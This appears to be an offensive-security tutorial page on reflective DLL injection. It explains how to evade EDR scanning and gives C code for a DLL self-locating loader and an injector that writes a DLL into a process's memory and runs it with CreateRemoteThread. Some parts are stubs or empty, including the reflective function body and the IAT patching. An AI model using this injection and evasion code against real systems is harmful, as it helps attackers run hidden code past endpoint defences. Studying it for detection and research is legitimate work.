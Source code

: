 ```yaml
---
description: >-
  Reflective DLL injection allows an attacker to inject a DLL into a victim
  process entirely from memory rather than disk. First utilized by Stephen
  Fewer.
---
```


# Reflective DLL Injection

{% embed url="https://github.com/stephenfewer/ReflectiveDLLInjection/" %}

## Introduction

&#x20;_**Reflective DLL's are inherently different than traditional DLLs. In the sense that they are specifically crafted to be executed reflectively. I.E executing themselves.**_

***

Most EDR's have updated their capabilities to detect this default process injection technique utilized by Stephen Fewer along with his Remote Process Execution technique using the CreateRemoteThread API.&#x20;

EDR's also scan newly created Executable memory blocks in remote processes that have PAGE\_EXECUTE\_READWRITE permissions. A way around this is to parse the PE headers and distribute the sections of PE to different locations.&#x20;

_<mark style="color:red;">**NOTE:**</mark>_ Also, it's important to note that changing Stephen Fewer's default reflective loader page permissions to PAGE\_EXECUTE\_READ to try to evade EDR will end in an ACCESS\_VIOLATION error. This is because there are several different sections in the PE that have their own permissions (which we cover above).



## Reflective DLL Injection

A reflective DLL exports a special function to inject itself when it's called. <mark style="color:red;">This function cannot include WinAPI functions or global variables</mark> as they rely on offsets set by the compiler which become invalid.

(<mark style="color:yellow;">Custom</mark> `GetModuleHandle` <mark style="color:yellow;">and</mark> `GetProcAddress` <mark style="color:yellow;">functions are required to resolve WinAPIs used in the</mark> `ReflectiveFunction` <mark style="color:yellow;">function.</mark> Make sure to include string hashing.)





## Building Reflective DLL



### Special Reflective Loader Function

The bread and butter of reflective DLL injection lies in the reflective loader function inside the DLL. This is responsible for patching IAT, fixing relocations, and executing the DLL's entrypoint.

```c
// Create Exported caller function. Will be brute-forced by Inject.exe
__declspec(dllexport) VOID ReflectiveFunction() {
    // Sauce goes here :)
}

```

This is the function we will call in inject.exe once the DLL is loaded.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



### Brute forcing DLL Base address (from dll)

One thing I think is very interesting about the Special Reflective Function is the use of bruteforcing the DLL's base address from within the DLL.

Below we get a pointer to ReflectiveFunction (from within ReflectiveFunction!!) and traverse back until we get a valid DOS header (signifying the base address of the DLL image). <mark style="color:green;">This is what</mark> `reflective programming` <mark style="color:green;">is.</mark>

Once we have the base address of the DLL, we can proceed to path IAT & Relocations.

```c
extern __declspec(dllexport) BOOL ReflectiveFunction() {

	// Brute forcing ReflectiveDllLdr.dll's base address, starting at ReflectiveFunction's address
	uTmpAddress = (ULONG_PTR)ReflectiveFunction;

	do
	{
		pImgDosHdr = (PIMAGE_DOS_HEADER)uTmpAddress;

		// Check if the current uTmpAddress is a DOS header
		if (pImgDosHdr->e_magic == IMAGE_DOS_SIGNATURE)
		{
			// To terminate false positives - we do another check by retrieving the NT header and checking its signature as well
			pImgNtHdrs = (PIMAGE_NT_HEADERS)(uTmpAddress + pImgDosHdr->e_lfanew);

			if (pImgNtHdrs->Signature == IMAGE_NT_SIGNATURE) {
				// If valid, the current uTmpAddress is ReflectiveDllLdr.dll's base address 
				uReflectiveDllModule = uTmpAddress;
				break;
			}
		}
		// Keep decrementing to reach the DLL's base address
		uTmpAddress--;

	} while (TRUE);
}
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>



### Patching Import Address Table (IAT)

Now that we have the base address of the DLL (see above) we can patch the IAT.







## Building Injector

For reflective DLL injection we load the dll into a buffer, parse the exports for the "Special Reflective Loader" function address, and create a new thread. Opposed to the traditional LoadLibraryW.

Here are the steps:

* Load dll file into buffer
* Open process handle
* Parse export data directory for "Special Reflective Loader" offset.
* Write dll buffer to external process.
* Calculate external process base address buffer with the reflective function offset.
* Create a new thread at reflective function address.

{% code fullWidth="true" %}
```c
// Given an RVA, calculate it's offset by iterating through PE sections.
DWORD RVA2Offset(IN DWORD dwRVA, IN ULONG_PTR pBaseAddress) {

    PIMAGE_NT_HEADERS        pImgNtHdrs             = NULL;
    PIMAGE_SECTION_HEADER    pImgSectionHdr         = NULL;

    pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBaseAddress + ((PIMAGE_DOS_HEADER)pBaseAddress)->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
        return 0x00;

    pImgSectionHdr	= (PIMAGE_SECTION_HEADER)((PBYTE)&pImgNtHdrs->OptionalHeader + pImgNtHdrs->FileHeader.SizeOfOptionalHeader);

    // Iterates through the PE sections
    for (int i = 0; i < pImgNtHdrs->FileHeader.NumberOfSections; i++){

        // If the RVA is located inside the "i" PE section
        if (dwRVA >= pImgSectionHdr[i].VirtualAddress && dwRVA < (pImgSectionHdr[i].VirtualAddress + pImgSectionHdr[i].Misc.VirtualSize))
            // Calculate the delta and add it to the raw pointer
            return (dwRVA - pImgSectionHdr[i].VirtualAddress) + pImgSectionHdr[i].PointerToRawData;
    }

    printf("\t[!] Cound'nt Convert The 0x%0.8X RVA to File Offset! \n", dwRVA);
    return 0x00;
}

// Gets the Special Reflective function offset. 
// Offset is used when we are calculating the address in memory allocated w/ VirtualAlloc. (InjectAndRunDll)
DWORD GetReflectiveFunctionOffset(IN ULONG_PTR uRflDllBuffer) {

    PIMAGE_NT_HEADERS               pImgNtHdrs                      = NULL;
    PIMAGE_EXPORT_DIRECTORY         pImgExportDir                   = NULL;
    PDWORD                          pdwFunctionNameArray            = NULL;
    PDWORD                          pdwFunctionAddressArray         = NULL;
    PWORD                           pwFunctionOrdinalArray          = NULL;

    pImgNtHdrs = (PIMAGE_NT_HEADERS)(uRflDllBuffer + ((PIMAGE_DOS_HEADER)uRflDllBuffer)->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
        return 0x00;

    pImgExportDir              = ( PIMAGE_EXPORT_DIRECTORY ) (uRflDllBuffer + RVA2Offset(pImgNtHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress, uRflDllBuffer));
    pdwFunctionNameArray       = ( PDWORD ) (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfNames, uRflDllBuffer));
    pdwFunctionAddressArray    = ( PDWORD ) (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfFunctions, uRflDllBuffer));
    pwFunctionOrdinalArray     = ( PWORD )  (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfNameOrdinals, uRflDllBuffer));

    for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){

        PCHAR pcFunctionName = (PCHAR)(uRflDllBuffer + RVA2Offset(pdwFunctionNameArray[i], uRflDllBuffer));

        if (strcmp(pcFunctionName, EXPORTED_FUNC_NAME) == 0)
            return RVA2Offset(pdwFunctionAddressArray[pwFunctionOrdinalArray[i]], uRflDllBuffer);
    }

    printf("\t[!] Cound'nt Resolve %s's Offset! \n", EXPORTED_FUNC_NAME);
    return 0x00;
}


// Takes in buffer, dllsize, and ReflectiveFunction address.
// Allocates memory, sets permissions, writes memory to remote process, and executes thread
BOOL InjectAndRunDll(IN HANDLE hProcess, IN DWORD dwRflFuncOffset, IN PBYTE pRflDllBuffer, IN DWORD dwRflDllSize) {

    PBYTE		pAddress                = NULL;
    SIZE_T		sNumberOfBytesWritten   = 0;
    HANDLE		hThread                 = NULL;
    DWORD		dwThreadId              = 0x00;
    if (!(pAddress = VirtualAllocEx(hProcess, NULL, dwRflDllSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ))) {
        printf("\t[!] VirtualAllocEx Failed With Error: %d \n", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(hProcess, pAddress, pRflDllBuffer, dwRflDllSize, &sNumberOfBytesWritten) || dwRflDllSize != sNumberOfBytesWritten) {
        printf("\t[!] WriteProcessMemory Failed With Error: %d \n", GetLastError());
        return FALSE;
    }

    if (!(hThread = CreateRemoteThread(hProcess, NULL, 0x00, (LPTHREAD_START_ROUTINE)(pAddress + dwRflFuncOffset), NULL, 0x00, &dwThreadId))) {
        printf("\t[!] CreateRemoteThread Failed With Error: %d \n", GetLastError());
        return FALSE;
    }



    return TRUE;
}


int main() {
/* Read dll into buffer (not putting that here)*/
    // Parse PE Headers
    DWORD dwReflectiveFunctionsOffset = GetReflectiveFunctionOffset((UINT_PTR)lpDllBuffer);

    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, GetCurrentProcessId() );
    
    if (!InjectAndRunDll(hProcess, dwReflectiveFunctionsOffset, lpDllBuffer, dwFileSize)) {
        wprintf(L"[!] InjectAndRunDll Failed");
        return -1;
    }


}
```
{% endcode %}

## References

### Write-up by Stephen Fewer

{% embed url="https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf" %}
